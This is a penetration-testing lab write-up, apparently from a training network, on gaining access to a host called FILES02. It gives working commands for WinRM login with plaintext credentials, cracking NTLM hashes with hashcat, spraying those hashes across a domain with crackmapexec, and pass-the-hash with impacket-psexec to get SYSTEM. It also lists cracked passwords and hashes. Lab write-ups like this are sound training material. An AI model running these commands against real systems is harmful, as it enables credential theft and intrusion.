









# FILES02

This machine is at the internal IP address of `172.16.X.11`. Initially I can access it via WinRM as `joe`:


```bash
proxychains evil-winrm -i 172.16.215.11 -u 'joe' -p 'Flowers1'
```


<figure><figcaption><p>evil-winrm session to FILES02</p></figcaption></figure>

## File Exfiltration

Due to how deeply into the network I have had to proxy I find it easier to just use the `upload`/`download` features of `evil-winrm`. For example I find an interesting `.log` file in `joe`'s `Documents` folder that I want to examine on my machine. I just grab it with the `download` command and then I can read it on my machine:

<figure><figcaption><p>Downloading file with evil-winrm</p></figcaption></figure>

This works nicely even over `proxychains`.

### File Monitor Logs

Examining this file I find a potential hash for a user daisy right away:

<figure><figcaption><p>Potential hash in log file</p></figcaption></figure>

#### Cracking The Hash

I throw the hash into a `daisy.ntlm` file and attempt a crack with hashcat:


```bash
hashcat -m 1000 -a 0 -o daisy.cracked -r /usr/share/hashcat/rules/best64.rule daisy.ntlm daisy.ntlm /usr/share/wordlists/rockyou.txt
```


Unfortunately it does not crack.

#### Verifying the Hash

I attempt to verify the hash with CME but it fails:

<figure><figcaption><p>Failed Verification</p></figcaption></figure>

#### Closer Examination

It turns out there were actually 4 NTLM hashes in the `fileMonitorBackup.log` file which I grab and put into `hashes.ntlm`. I then attempt to crack them all with hashcat:


```
abf36048c1cf88f5603381c5128feb8e
5be63a865b65349851c1f11a067a3068
fdf36048c1cf88f5630381c5e38feb8e
8e9e1516818ce4e54247e71e71b5f436

```



```bash
hashcat -m 1000 -a 0 -w 3 -o hashes.cracked hashes.ntlm /usr/share/wordlists/rockyou.txt
```


This time one cracks to `Mushroom!`. Looking at the `.log` file this appeared on a line next to wario so I decide to attempt that combination for validation:

<figure><figcaption></figcaption></figure>


```
medtech.com\joe:Flowers1    Extracted via Mimikatz from WEB02       WinRM:FILES02   SMB:DC01,FILES02,DEV04,PROD01,CLIENT01,CLIENT02
medtech.com\wario:Mushroom! Found in log file as joe on FILES02     WinRM:CLIENT02  SMB:DC01,FILES02,DEV04,PROD01,CLIENT01,CLIENT02
```


### Hash Spraying

One last thing I decide to do is spray the hashes found in the `.log` file across the domain as all the users. Perhaps one or 2 are valid:


```bash
proxychains crackmapexec smb ./internal/hosts.txt -d 'medtech.com' -u ./users.txt -H ./FILES02/foothold/hashes.ntlm --continue-on-success
```


I did validate the `yoshi` hash but I sprayed too much. I should have been more careful and I accidentally locked several accounts:

<figure><figcaption></figcaption></figure>

This will cost me 30 minutes:

<figure><figcaption></figcaption></figure>

Regardless we press on and I create a `hashes.txt` file to store validated hashes:


```
medtech.com\yoshi:fdf36048c1cf88f5630381c5e38feb8e  Found in joe's logs
```


## Yoshi

I check out what I can do with this hash. Unfortunately I cannot use WinRM anywhere according to CME, but I have Read,Write on some SMB shares on CLIENT01 so perhaps PsExec:

<figure><figcaption><p>CME for yoshi's hash</p></figcaption></figure>

### PsExec

I decide to test out my `PsExec` access:


```bash
proxychains impacket-psexec -hashes 00000000000000000000000000000000:fdf36048c1cf88f5630381c5e38feb8e yoshi@172.16.215.82
```


* Need to pad the beginning with 32 `0`s in order for `PsExec` to work properly. Errors out otherwise&#x20;

I immediately have `SYSTEM` access:

<figure><figcaption><p>SYSTEM access on CLIENT01</p></figcaption></figure>
